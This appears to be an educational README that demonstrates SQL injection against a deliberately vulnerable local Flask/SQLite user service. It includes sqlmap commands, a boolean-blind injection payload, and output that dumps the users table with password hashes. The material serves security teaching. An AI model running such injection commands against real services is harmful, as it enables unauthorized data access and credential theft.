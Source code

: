 # Example: User Service - SQL Injection Attack
 
In this example, we can see how a simple user service can be implemented 
using Flask and SQLite.

Also, we will demonstrate an SQL injection attack on this service.

## Start the Service 

We start the web service from the command line:
```
$ python3 user_service.py
```

## Find a particular User

We can query the service for a particular user:

```bash
$ curl -i http://localhost:8080/users/homer

HTTP/1.1 200 OK
Server: Werkzeug/3.0.4 Python/3.11.2
Date: Wed, 08 Jan 2025 19:52:26 GMT
Content-Type: application/json
Content-Length: 81
Connection: close

{
  "email": "homer.simpson@springfield.com",
  "id": 1,
  "username": "homer"
}
```

Here we get the username, email, and id of the user `homer`.

We can also query for a user that does not exist:

```bash
$ curl -i http://localhost:8080/users/moe

HTTP/1.1 404 NOT FOUND
Server: Werkzeug/3.0.4 Python/3.11.2
Date: Wed, 08 Jan 2025 19:54:05 GMT
Content-Type: application/json
Content-Length: 32
Connection: close

{
  "error": "User not found"
}
```


## Attack the Service with SQLMap

We can use `sqlmap` to find out, if the service is vulnerable to SQL injection.

_Example:_ Fingerpring the database

```bash
$ sqlmap -u "http://localhost:8080/users/homer*" --technique=BT

sqlmap identified the following injection point(s) with a total of 39 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://localhost:8080/users/homer' AND 5966=5966 AND 'McxN'='McxN
---
[20:44:47] [INFO] testing SQLite
[20:44:47] [INFO] confirming SQLite
[20:44:47] [INFO] actively fingerprinting SQLite
[20:44:47] [INFO] the back-end DBMS is SQLite
```

_Example:_ Extract the database schema
```bash
$ sqlmap -u "http://localhost:8080/users/homer*" --technique=BT --schema

[20:47:56] [INFO] retrieved: 2
[20:47:56] [INFO] retrieved: users
[20:47:56] [INFO] retrieved: sqlite_sequence
[20:47:56] [INFO] fetched tables: 'SQLite_masterdb.users', 'SQLite_masterdb.sqlite_sequence'
[20:47:56] [INFO] retrieved: CREATE TABLE "users" (  "id" INTEGER,  "username" TEXT NOT NULL,  "email" TEXT NOT NULL,  "password" TEXT NOT NULL,  PRIMARY KEY("id" AUTOINCREMENT) )
[20:47:59] [INFO] retrieved: CREATE TABLE sqlite_sequence(name,seq)

```

_Example:_ Extract the database content
```bash
$ sqlmap -u "http://localhost:8080/users/homer*" --technique=BT --dump

Table: users
[2 entries]
+----+-------------------------------+------------------------------------------------------------------+----------+
| id | email                         | password                                                         | username |
+----+-------------------------------+------------------------------------------------------------------+----------+
| 1  | homer.simpson@springfield.com | 2aaab795b3836904f82efc6ca2285d927aed75206214e1da383418eb90c9052f | homer    |
| 2  | marge.simpson@springfield.com | b4b811fa40505329ae871e52f03527c3720c9af7fb8607819658535c5484c41e | marge    |
+----+-------------------------------+------------------------------------------------------------------+----------+
```

*Egon Teiniker, 2020-2025, GPL v3.0*
 